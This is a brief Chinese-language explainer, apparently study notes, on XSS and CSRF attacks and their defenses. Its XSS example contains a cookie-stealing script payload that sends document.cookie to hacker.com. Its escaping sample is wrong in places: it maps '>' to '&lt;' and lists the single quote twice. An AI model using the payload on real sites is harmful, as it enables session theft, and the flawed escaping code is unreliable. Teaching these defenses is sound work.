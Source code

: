 **什么是XSS攻击  如何预防？**</br>
　　举例</br>
　　　　`div.innerHTML = userComment` userComment的内容是 `<script>$.get('http://hacker.com?cookie='+document.cookie)</script>` 恶意就被执行了，这就是 XSS</br>
　　预防</br>
　　　　不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行</br>
　　　　如果你一定要用 innerHTML，字符过滤</br>
　　　　把 < 替换成 &lt;</br>
　　　　把 > 替换成 &gt;</br>
　　　　把 & 替换成 &amp;</br>
　　　　把 ' 替换成 &#39;</br>
　　　　把 ' 替换成 &quot;</br>
　　　　代码 `div.innerHTML = userComment.replace(/>/g, '&lt;').replace...`</br>
　　　　使用 CSP Content Security Policy(网页安全政策)</br>

**什么是CSRF攻击  如何预防？**</br>
　　过程</br>
　　　　用户在 qq.com 登录</br>
　　　　用户切换到 hacker.com（恶意网站）</br>
　　　　hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友</br>
　　　　用户在不知不觉中添加 hacker 为好友</br>
　　　　用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象</br>
　　避免</br>
　　　　检查 referer，qq.com 可以拒绝来自 hacker.com 的请求</br>
　　　　csrf_token 来解决</br>

